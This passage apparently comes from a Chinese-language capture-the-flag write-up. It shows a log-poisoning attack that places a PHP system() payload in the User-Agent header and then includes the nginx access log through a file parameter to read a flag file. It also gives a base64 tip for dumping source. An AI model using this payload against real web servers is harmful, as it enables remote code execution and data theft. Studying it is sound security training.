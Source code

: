 <figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

可以看到我们的代码起作用了，后面显示了我们当前目录下的文件，有fl0g.php。我们接下来只要查看flag.php的源代码就可以了，直接cat flag.php,

这里介绍一个指令可以直接把文件的以base64编码的形式输出

```sh
base64 file
```

所以我们最后的头部的结果就是

```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: ed2a102a-36b7-4969-b43f-eac4d7abef51.challenge.ctf.show
User-Agent: <?php system('cat fl0g.php');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1


```
